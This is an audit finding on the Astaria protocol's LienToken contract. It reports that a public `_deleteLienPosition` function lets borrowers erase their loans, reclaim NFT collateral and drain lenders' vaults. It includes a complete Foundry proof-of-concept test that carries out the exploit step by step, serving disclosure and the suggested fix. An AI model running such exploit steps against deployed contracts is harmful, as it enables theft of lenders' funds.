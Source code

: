 zzykxx

high

# `_deleteLienPosition` visibility allows for fund draining

## Summary

At [LienToken.sol#L651](https://github.com/sherlock-audit/2022-10-astaria/blob/main/src/LienToken.sol#L651) the function `_deleteLienPosition` visibility is set to public.

## Vulnerability Detail

Anybody can call `_deleteLienPosition`.

## Impact

`_deleteLienPosition` allows to delete a lien, which means that lien do not have to be paid back. This allows borrowers to get back their NFTs without paying back the loan, allowing them to drain the vault.

## Code Snippet

Just copy-paste in `AstariaTest.t.sol` and run with `--via-ir`, if necessary:

```solidity
  function testReleaseToAddressWithoutRepay() public {
    TestNFT nft = new TestNFT(1);
    address tokenContract = address(nft);
    uint256 tokenId = uint256(0);

    uint256 initialBalance = WETH9.balanceOf(address(this));


    address publicVault = _createPublicVault({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 14 days
    });

    /*

      CAROL lends 50 ether to the vault

    */

    _lendToVault(
      Lender({addr: address(1), amountToLend: 50 ether}),
      publicVault
    );

    /*

      SOMEONE borrows 10 ether from the vault, by providing an accepted NFT

    */

    _commitToLien({
      vault: publicVault,
      strategist: strategistOne,
      strategistPK: strategistOnePK,
      tokenContract: tokenContract,
      tokenId: tokenId,
      lienDetails: standardLien,
      amount: 10 ether,
      isFirstLien: true
    });

    /*

      SOMEONE calls the public `_deleteLienPosition` to remove his liens

    */

    uint256 collateralId = tokenContract.computeId(tokenId);

    LIEN_TOKEN._deleteLienPosition(collateralId, 0);

    COLLATERAL_TOKEN.releaseToAddress(collateralId, address(this));

    assertEq(ERC721(tokenContract).ownerOf(tokenId), address(this));
  }
```
## Tool used

Manual Review

## Recommendation

Set `_deleteLienPosition` visibility to private.

